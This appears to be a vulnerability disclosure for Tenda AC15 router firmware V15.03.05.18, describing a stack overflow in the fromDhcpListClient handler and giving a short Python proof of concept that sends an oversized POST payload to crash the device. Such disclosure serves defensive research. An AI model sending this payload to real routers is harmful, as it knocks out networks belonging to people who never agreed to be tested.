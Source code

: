 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware has a stack overflow vulnerability in the `fromDhcpListClient` function. We can set `LISTEN=1` and the program will enter line 30 and 33, which leads to a stack overflow vulnerability. Since the overflow overrides the `LISTEN` pointer variable, the `atoi` function will crash the program, causing a DOS attack in the second time looping.

![image-20240314224459210](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314224459210.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/DhcpListClient"
payload = b"a"*2000


data = {"LISTLEN":1,"page":1,"list1": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314224519962](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314224519962.png)
